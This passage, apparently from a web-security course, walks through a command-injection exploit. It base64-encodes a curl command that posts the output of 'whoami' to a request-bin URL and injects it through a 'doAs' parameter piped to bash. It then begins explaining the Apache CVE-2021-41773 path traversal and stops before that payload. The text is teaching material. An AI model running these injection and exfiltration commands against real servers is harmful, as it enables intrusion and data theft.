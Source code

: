 Because of the ```$(whoami)``` parameter that will be interpreted by bash, we can encode the string with base64 using python:

```python
python
import base64
base64.b64encode(b'curl -d $(whoami) <REQUEST-BIN-URL>')
```

<img src="../media/python_encode.png" width=550 height=50>


```
curl -X "GET" http://<IP>:8080/?doAs=`echo <base_64_string> | base64 -d | bash`
```

We can see that we have got two GET requests in our Request Bin logger.
One of this contains the target username:

<img src="../media/username.png" width=850 height=400>

### CVE-2021-41773

An attacker could use a path traversal attack to map URLs to files outside the expected document root. We discussed about path traversal in [Session 2](https://github.com/security-summer-school/web/blob/master/cookies-session-management-access-control/index.md).
In Apache, if files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts.
The affected versions of Apache were Apache 2.4.49 & 2.4.50.

Path normalization mechanism of Apache HTTP Server 2.4.49, it does not properly neutralize sequences such as ".." so this will result in accessing files outside the current directory.
Using the ```%2e``` (which is the URL encoding of '.') inside the target URL, we can successfully run a path traversal attack:
